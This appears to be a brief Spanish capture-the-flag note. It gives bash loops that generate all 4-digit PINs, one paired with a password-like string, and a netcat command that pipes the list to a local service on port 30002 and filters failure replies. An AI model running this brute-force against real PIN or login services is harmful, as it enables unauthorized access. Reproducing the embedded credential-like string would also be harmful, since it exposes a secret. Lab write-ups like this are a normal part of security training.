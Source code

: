 //Este script genera un diccionario de contraseñas de 4 digitos desde el 0000 hasta el 9999 sin orden numérico

## Básico

```bash
for pin in {0000..9999}; do echo "Contraseña $pin"; done > combinations.txt
```
-------------------------------------------------------------------------------------------------------------------

## Con correccíon de errores y adjunto a un archivo

```bash
#!/bin/bash

for i in {0000..9999}; do
         echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" 
 done


-------------------------------------------------------------------------------------------------------------------


Para mandar este diccionario de contraseñas por un puerto especifico seria con este comando: 
  
  cat dictionary.txt | nc localhost 30002 | grep -v -E "Wrong|Please" (grep -v -E para quitar errores en caso de ser necesario)
```
